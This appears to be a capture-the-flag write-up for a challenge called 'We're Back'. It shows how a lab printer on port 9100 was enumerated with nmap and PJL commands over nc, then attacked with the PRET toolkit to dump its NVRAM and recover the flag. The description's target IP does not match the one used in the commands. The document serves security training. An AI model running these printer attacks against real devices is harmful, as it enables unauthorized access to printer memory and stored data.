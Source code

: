 # We're Back

## Description
* Target IP: 18.116.82.37


## Solution

We've given an IP address and port to work with. Nmap scan reveals that this is jetdirect service. 

```bash
nmap -p9100 -Pn 18.117.184.236
Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-27 02:53 EDT
Nmap scan report for ec2-18-117-184-236.us-east-2.compute.amazonaws.com (18.117.184.236)
Host is up (0.62s latency).

PORT     STATE SERVICE
9100/tcp open  jetdirect
```

Searching online reveals that this is default port used for Network Printers. They manage printing jobs using printer control languages such as PJL, PostScript, PCL. Let's enumerate the printer language used in target printer. 

```bash
echo "@PJL INFO ID" | nc 18.117.184.236 9100
@PJL INFO ID
hp LaserJet 4200
```

This is successful and we see target printer processed the PJL language input. We know aware of printer model. There's an excellent printer exploitation toolkit available which can be cloned from [PRET](https://github.com/RUB-NDS/PRET) github repository. 

```bash
git clone https://github.com/RUB-NDS/PRET
```

We can now use the tool to gain access to additional features of printer. 

```bash
python3 pret.py 18.117.184.236 pjl
      ________________                                             
    _/_______________/|                                            
   /___________/___//||   PRET | Printer Exploitation Toolkit v0.40
  |===        |----| ||    by Jens Mueller <jens.a.mueller@rub.de> 
  |           |   ô| ||                                            
  |___________|   ô| ||                                            
  | ||/.´---.||    | ||      「 pentesting tool that made          
  |-||/_____\||-.  | |´         dumpster diving obsolete‥ 」       
  |_||=L==H==||_|__|/                                              
                                                                   
     (ASCII art by                                                 
     Jan Foerster)                                                 
                                                                   
Connection to 18.117.184.236 established
Device:   HeistCorp LaserJet 4ML

Welcome to the pret shell. Type help or ? to list commands.
18.117.184.236:/> 
```

Typing `ls` we see filesystem information. 

```bash
18.117.184.236:/> ls
d        -   pjl
```

We can try to gain access to printer jobs if there are any those are queued or in progress. 

```bash
18.117.184.236:/> ls pjl/jobs/
-        0   queued
```

We don't find much in there. Reading more about printer attacks we find a good reference [hacking-printers](http://hacking-printers.net/wiki/index.php/Main_Page) which talks about most common attacks that are possible. Trying one by one we come across memory access attack path by dumping NVRAM of the target printer. Let's try it out. 

```bash
18.117.184.236:/> nvram dump
Writing copy to nvram/18.117.184.236
Program Error (a bytes-like object is required, not 'str')
```

This fails. Lets try with python2 since it has formatting issues. 

```bash
18.117.184.236:/> nvram dump
Writing copy to nvram/18.117.184.236
..................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................k.e.y............A.C.V.C.T.F.{.m.3.m._.l.3.4.k.s._.<.3.}()
```

This gives the key which is flag.
